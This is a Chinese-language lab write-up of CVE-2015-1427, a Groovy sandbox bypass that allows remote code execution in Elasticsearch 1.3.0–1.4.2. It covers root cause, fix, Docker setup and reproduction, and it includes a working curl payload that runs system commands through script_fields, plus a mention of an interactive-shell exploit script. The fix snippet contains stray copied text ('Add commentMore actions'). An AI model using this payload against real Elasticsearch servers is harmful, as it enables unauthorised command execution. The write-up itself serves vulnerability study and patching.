




# CVE-2015-1427 CWE-284 Elasticsearch RCE

## 漏洞背景

- **ElasticSearch ：**一个开源的分布式 RESTful 搜索和分析引擎、可扩展的数据存储和向量数据库，能够解决不断涌现出的各种用例。能够存储大量数据，支持实时搜索、多租户、分布式索引和存储。采用文档导向型存储，数据以 JSON 文档形式存在，字段灵活。其在全文检索方面表现出色，能快速处理复杂搜索请求，常用于日志分析、网站搜索等场景，还可通过添加节点方便扩展集群规模，不过在事务处理完整性和数据更新一致性等方面相对传统数据库稍弱。
- **CWE-284（Improper Access Control）：**不当访问控制，指的是软件未能正确限制用户对系统资源或功能的访问权限，导致未经授权的用户能够访问或操作本不该允许的内容，可能引发数据泄露、权限提升或系统被篡改等安全风险。
- **Groovy ：**一种基于 JVM 的动态编程语言，具有简洁、灵活的特点，能够很好地与Java代码兼容。它支持脚本编写和快速开发，同时提供了强大的动态特性和丰富的库。在 Elasticsearch 中，Groovy 脚本被广泛用于实现复杂的搜索查询和数据处理。然而，由于安全原因，从 Elasticsearch 7.10 版本开始，Groovy 脚本默认不被支持。

## 漏洞原理

CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个 Goovy 代码执行漏洞。例如可以在 _search 请求中使用 script_fields 字段执行脚本。

漏洞的核心问题是：

> **Groovy 引擎未正确做沙箱限制，攻击者可以使用 Java 反射机制调用任意类，进而实现远程代码执行。**

攻击者可以构造恶意 Groovy 脚本，例如调用：

```groovy
java.lang.Runtime.getRuntime().exec("id")
```

来在服务器上执行任意系统命令。

## 漏洞定位

分析 Elasticsearch 1.4.2 源码：

在 src\main\java\org\elasticsearch\script\groovy\GroovySandboxExpressionChecker.java 文件，这个类  GroovySandboxExpressionChecker 是 Elasticsearch 用于在执行用户提交的 Groovy 脚本前做 AST（抽象语法树）级别的安全检查的组件，主要目的是防止执行恶意代码。

其中第 118 行，isAuthorized 方法用于检查给定的表达式是否被授权执行。但是**缺少对方法指针表达式(MethodPointerExpression)的检查**。

```java
/**
 * Checks whether the expression to be compiled is allowed
 */
@Override
public boolean isAuthorized(Expression expression) {
    if (expression instanceof MethodCallExpression) {
        MethodCallExpression mce = (MethodCallExpression) expression;
        String methodName = mce.getMethodAsString();
        if (methodBlacklist.contains(methodName)) {
            return false;   // 阻止调用黑名单中的方法
        } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
            // 防止方法名通过字符串插值构建（如 ${"ex"}）
            return false;
        }
    } else if (expression instanceof ConstructorCallExpression) {
        //  如果是构造方法调用，检查是否是允许调用的包和类。限制了构造函数的来源。
        ConstructorCallExpression cce = (ConstructorCallExpression) expression;
        ClassNode type = cce.getType();
        if (!packageWhitelist.contains(type.getPackageName())) {
            return false;
        }
        if (!classWhitelist.contains(type.getName())) {
            return false;
        }
    }
    return true;
}
```

例如攻击者可以使用这种表达式：

```python
def r = java.lang.Runtime.getRuntime()
def m = r.&exec
m("id")
```

通过 `.&` 拿到了 `exec()` 的方法指针，绕过 `methodBlacklist.contains("exec")` 的判断。但这个类型不是 `MethodCallExpression`，所以根本不会进入 if 分支，最终执行了 `return true;`

在 payload 中的 script 中的恶意命令脚本：

```bash
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

利用了一个已知、沙箱允许的类： `java.lang.Math` 获取不在黑名单中的合法的表达式 `Class` 类型，之后调用 `class.forName()`，这用于动态加载类对象。这是**关键点**：通过 `forName()` 规避对 `Runtime` 的显式使用路径检查。获取的 `Runtime` 实例通常 `Runtime.getRuntime()` 是黑名单方法，但由于前面通过 `forName()` 拿到的是 `java.lang.Runtime` 类对象，**并非直接写明 `Runtime.getRuntime()`**，导致绕过黑名单检查。最终可以调用`exec()`执行命令。

## 漏洞修复

在 isAuthorized 方法中加入对 `MethodPointerExpression` 的检查。

```java
if (expression instanceof MethodPointerExpression) {Add commentMore actions
            return false;
        } 
```

## 影响范围

Elasticsearch 1.3.0 到 1.3.7 以及 1.4.0 到 1.4.2 

## 环境搭建

1. 启动 Docker 环境，ElasticSearch 版本为 1.4.2，利用开放端口 9200 进行漏洞利用。

   

2. Docker 环境中已创建一个索引为 init_index、类型为 user、文档 ID 为 1 的文档，并设置字段 name 为 init_user。使用以下命令查看文档的信息。

   ```bash
   curl -XGET 'http://127.0.0.1:9200/init_index/user/1?pretty'
   ```

   

## 漏洞复现

1. **需要数据库中存有数据。**Docker 环境中已经预先存有数据。若没有数据，使用 `curl` 向本地运行的 ElasticSearch 实例发送一个插入文档（Index Document）的 HTTP 请求：

   - 索引名称：init_index
   - 类型：user
   - 文档的 ID（如果存在，将覆盖；如果不存在，则创建）：1
   - 插入的内容：name 字段的值为 init_user

   ```bash
   curl -XPUT 'http://127.0.0.1:9200/init_index/user/1' \
   	-d '{"name" : "init_user"}'
   ```

2. 构造 payload，使用 curl 命令发送请求，利用 Elasticsearch 的脚本功能（Groovy 语言）尝试执行系统命令 id。返回结果中的 fields.lupin 字段内容是 id 命令的执行结果。

   ```bash
   curl -XPOST 'http://127.0.0.1:9200/_search?pretty' \
   -H 'Content-Type: application/json' \
   -d '{
     "size": 1,
     "script_fields": {
       "lupin": {
         "lang": "groovy",
         "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"
       }
     }
   }'
   ```

   

## EXP分析

在确保数据库中存有数据后，执行 EXP 文件，输入目标 IP 和端口，获得交互 shell。

```bash
python CVE-2015-1427-EXP.py
```

执行流程：输入目标 IP 和端口号，循环等待命令输入，再构造 payload 发送至目标 ES 并返回结果。



## 参考链接

[ElasticSearch - Remote Code Execution - Linux remote Exploit](https://www.exploit-db.com/exploits/36337)

[ElasticSearch Groovy远程代码执行漏洞(CVE-2015-1427)POC - 天天AC - 博客园](https://www.cnblogs.com/sxmcACM/p/4435842.html)

[Improper Access Control in Elasticsearch · CVE-2015-1427 · GitHub Advisory Database](https://github.com/advisories/GHSA-w94p-6mhw-4qxw)

[Docs: Added note about groovy sandbox vulnerability to modules/scripting · elastic/elasticsearch@4b8154a](https://github.com/elastic/elasticsearch/commit/4b8154acc0e948234f97c884ce7c03ac0d25d0ad)

[Disallow method pointer expressions in Groovy scripting · elastic/elasticsearch@ee23113](https://github.com/elastic/elasticsearch/commit/ee231133ca0e318ee18a6b1badd8368337f5e59a)
